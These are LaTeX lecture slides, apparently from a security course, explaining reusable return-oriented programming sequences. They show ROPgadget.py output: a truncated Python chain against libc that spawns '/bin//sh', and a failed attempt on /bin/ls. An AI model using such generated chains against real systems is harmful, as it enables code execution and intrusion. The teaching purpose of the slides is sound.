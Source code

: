 
\begin{frame}{common, reusable ROP sequences}
    \begin{itemize}
        \item open a command-line
            \begin{itemize}
            \item \texttt{ROPchain.py --binary example --ropchain} tries to do this
            \end{itemize}
        \item make memory executable + jump
            \begin{itemize}
            \item generally: just do enough to ignore write XOR execute
            \end{itemize}
        \item often only depend on memory locations in shared library
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ropchainex1]{ROPgadget.py --ropchain (works)}
\begin{lstlisting}[language={},style=script]
ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 \
             --offset 0x10000000 --ropchain
...
        #!/usr/bin/env python2
        # execve generated by ROPgadget

        from struct import pack

        # Padding goes here
        p = ''
        p += pack('<Q', 0x00000000101056fd) # pop rdx ; pop rcx ; pop rbx ; ret
        p += pack('<Q', 0x00000000101eb1a0) # @ .data
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x000000001004a550) # pop rax ; ret
        p += '/bin//sh'
        p += pack('<Q', 0x00000000100374b0) # mov qword ptr [rdx], rax ; ret
...
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=ropchainex]{ROPgadget.py --ropchain (does not work?)}
\begin{lstlisting}[language={},style=script]
ROPgadget.py --binary /bin/ls --ropchain
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x7694 mov byte ptr [rax], 0xa ; pop rbx ; pop rbp ; pop r12 ; ret
        [-] Can't find the 'pop rax' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
...
\end{lstlisting}
\end{frame}
